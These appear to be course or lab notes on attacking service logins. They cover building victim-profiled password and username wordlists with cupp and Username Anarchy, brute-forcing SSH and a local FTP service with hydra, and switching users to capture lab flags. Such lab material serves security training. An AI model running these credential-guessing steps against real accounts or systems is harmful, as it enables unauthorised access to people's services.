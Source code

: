 # 🪖 Service Authentication Attacks

## Personalized Wordlists

We are going tu use `cupp,`we can install it with `sudo apt install cupp` or clone it from the [Github repository](https://github.com/Mebus/cupp).

```shell-session
ElFelixi0@htb[/htb]$ cupp -i

___________
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: William
> Surname: Gates
> Nickname: Bill
> Birthdate (DDMMYYYY): 28101955

> Partners) name: Melinda
> Partners) nickname: Ann
> Partners) birthdate (DDMMYYYY): 15081964

> Child's name: Jennifer
> Child's nickname: Jenn
> Child's birthdate (DDMMYYYY): 26041996

> Pet's name: Nila
> Company name: Microsoft

> Do you want to add some key words about the victim? Y/[N]: Phoebe,Rory
> Do you want to add special chars at the end of words? Y/[N]: y
> Do you want to add some random numbers at the end of words? Y/[N]:y
> Leet mode? (i.e. leet = 1337) Y/[N]: y

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to william.txt, counting 43368 words.
[+] Now load your pistolero with william.txt and shoot! Good luck!
```

If we were able to see the password policy we can go and make that list more accurate to our target ->

```bash
sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
sed -ri '/[0-9]+/!d' william.txt            # remove no numbers
```

To make permutations of each word in that list, we can use [rsmangler](https://github.com/digininja/RSMangler) or [The Mentalist](https://github.com/sc0tfree/mentalist.git). These tools have many other options, which can make any small wordlist reach millions of lines long.

### Custom Username Wordlist

To guess a person's username that could be `b.gates` or `gates` or `bill`, and many other potential variations we can use is [Username Anarchy](https://github.com/urbanadventurer/username-anarchy)

```shell-session
git clone https://github.com/urbanadventurer/username-anarchy.git
./username-anarchy Bill Gates > bill.txt
```

## Service Authentication Brute Forcing

### SSH Attack

`service://SERVER_IP:PORT` at the end. As usual, we will add the `-u -f` flags and `-t 4`

```shell-session
hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4
```

### FTP Brute Forcing

Once we're in, we check the users ->

```shell-session
ls /home
```

We check what is running in background and see port 21/FTP

```shell-session
b.gates@bruteforcing:~$ netstat -antp | grep -i list

(No info could be read for "-p": geteuid()=1000 but you should be root.)
tcp        0      0 127.0.0.1:21            0.0.0.0:*               LISTEN      - 
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -                  
```

We can now try to bruteforce FTP for the other user:

```shell-session
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1
```

and connect locally juste like this:

```shell-session
ftp 127.0.0.1
```

and after looking through everything we can juste switch user :

```shell-session
su - m.gates
```

_**Using what you learned in this section, try to brute force the SSH login of the user "b.gates" in the target server shown above. Then try to SSH into the server. You should find a flag in the home dir. What is the content of the flag?**_



_**Once you ssh in, try brute forcing the FTP login for the other user. You should find another flag in their home directory. What is the flag?**_

